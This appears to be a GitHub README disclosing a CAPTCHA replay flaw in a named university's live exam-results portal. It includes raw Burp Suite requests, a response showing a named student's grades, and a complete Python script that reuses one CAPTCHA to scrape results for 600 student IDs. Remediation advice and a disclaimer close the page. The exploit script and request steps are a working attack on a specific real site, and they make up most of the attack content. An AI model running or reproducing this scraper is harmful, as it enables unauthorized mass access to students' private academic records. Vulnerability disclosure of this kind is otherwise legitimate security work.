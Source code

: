 # 🐛 KLE Tech eResults CAPTCHA Bypass Exploit

## ⚠️ Vulnerability: Persistent CAPTCHA Token Allows Mass Data Scraping

### **Overview**
A security flaw in the [KLE Tech eResults](https://eresults.kletech.ac.in) portal allows **automated retrieval of student results** without solving multiple CAPTCHAs. The CAPTCHA token remains **unchanged when using the "Go Back" button**, allowing attackers to **reuse the same token** for multiple requests, effectively bypassing CAPTCHA validation.

This flaw enables **mass scraping of student records**, violating privacy regulations and exposing sensitive academic data.

---

## 🎯 **Vulnerability Type**
- **CAPTCHA Replay Attack**
- **Broken Authentication Mechanism**
- **Insecure Direct Object Reference (IDOR)**

---

## 🔍 **How the Exploit Works**
1. **Access the eResults page**, enter a valid **USN** (University Seat Number), and solve the CAPTCHA.
2. **Capture the request in Burp Suite** and note the **POST request** containing the CAPTCHA value.
3. **Navigate back in the browser** and input a **different USN**.
4. **Replay the Burp Suite request** with a modified **USN** while keeping the original CAPTCHA.
5. The server **accepts the request** and retrieves **new student results** without requiring a new CAPTCHA.

---

## 🔎 **Burp Suite Request & Response Analysis**


![Screenshot from 2025-03-06 22-16-18](https://github.com/user-attachments/assets/cd08acfa-4991-4690-8297-89745ec252c3)

### 🔹 **Original Request**
```http
POST /index.php?option=com_examresult&task=getResult HTTP/1.1
Host: eresults.kletech.ac.in
Cookie: _ga_HLWRDTM589=GS1.1.1741269540.1.1.1741270344.0.0.0; _ga=GA1.3.2076330253.1741269541
Content-Length: 56
Origin: https://eresults.kletech.ac.in
Content-Type: application/x-www-form-urlencoded
Referer: https://eresults.kletech.ac.in/index.php
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
Connection: keep-alive

usn=01fe22bcs110&osolCatchaTxt=REBLB&osolCatchaTxtInst=0
```

### 🔹 **Modified Request (Exploiting the Vulnerability)**
```http
POST /index.php?option=com_examresult&task=getResult HTTP/1.1
Host: eresults.kletech.ac.in
Cookie: _ga_HLWRDTM589=GS1.1.1741269540.1.1.1741270344.0.0.0; _ga=GA1.3.2076330253.1741269541
Content-Length: 56
Origin: https://eresults.kletech.ac.in
Content-Type: application/x-www-form-urlencoded
Referer: https://eresults.kletech.ac.in/index.php
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
Connection: keep-alive

usn=01fe22bcs200&osolCatchaTxt=REBLB&osolCatchaTxtInst=0
```

### 🔹 **Server Response**
```html
<html>
  <body>
    <h3>Student Name: Rohit M R</h3>
    <table>
      <tr><td>Machine Learning</td><td>A</td></tr>
      <tr><td>Data Structures</td><td>B</td></tr>
    </table>
  </body>
</html>
```
📊 The **server accepts the same CAPTCHA** and returns **another student's results** without verification.

---

## 🤖 **Automating the Exploit**
We developed a Python script to:
1. **Solve CAPTCHA once** and save the token.
2. **Loop through all USNs** (`01fe22bcs001` → `01fe22bcs300`, `01fe22bci001` → `01fe22bci300`).
3. **Reuse the same CAPTCHA** for every request.
4. **Save each student's HTML response locally**.

### 👉 **Python Exploit Code**
```python
import requests

base_url = "https://eresults.kletech.ac.in/index.php"
session = requests.Session()

captcha_value = input("Enter CAPTCHA value: ").strip()
start_usn = 1
end_usn = 300

for series in ["01fe22bcs", "01fe22bci"]:
    for i in range(start_usn, end_usn + 1):
        usn = f"{series}{i:03d}"
        data = {
            "usn": usn,
            "osolCatchaTxt": captcha_value,
            "osolCatchaTxtInst": "0",
        }

        response = session.post(
            f"{base_url}?option=com_examresult&task=getResult",
            data=data
        )

        if "Wrong CAPTCHA" in response.text:
            print(f" CAPTCHA expired. Try again.")
            break

        with open(f"{usn}.html", "w", encoding="utf-8") as file:
            file.write(response.text)

        print(f" Saved: {usn}.html")
```

---

## 🛡 **How to Fix This?**
### 🔴 **Current Issue:**
- CAPTCHA is **not session-based** and can be reused.
- No per-request CAPTCHA verification.
- No rate-limiting or request throttling.

### 🛠 **Recommended Fixes:**
1. **Generate a new CAPTCHA** for every request.
2. **Tie the CAPTCHA token to a session** and expire it after a single use.
3. **Implement rate limiting** to block excessive requests from a single user.
4. **Use reCAPTCHA or a stronger CAPTCHA solution** to prevent automation.

---

## 🎯 **Impact**
- **Confidentiality Breach**: Any student's academic records can be accessed.
- **Privacy Violation**: Exposes personal academic information without authentication.
- **Regulatory Issues**: May violate data protection laws like **GDPR** and **Indian IT Act**.

---

## 💌 **Responsible Disclosure**
This report is for **educational purposes only**. If you are a security researcher or the system administrator of KLE Tech, we strongly recommend **fixing this vulnerability immediately**.

---

## ⚠️ **Disclaimer**
This repository is for **educational and ethical hacking research purposes only**. Unauthorized access to systems without permission is **illegal** and punishable by law. Do not misuse this information.

---


---

### 💪 Thanks for reading. Stay ethical! 🔒

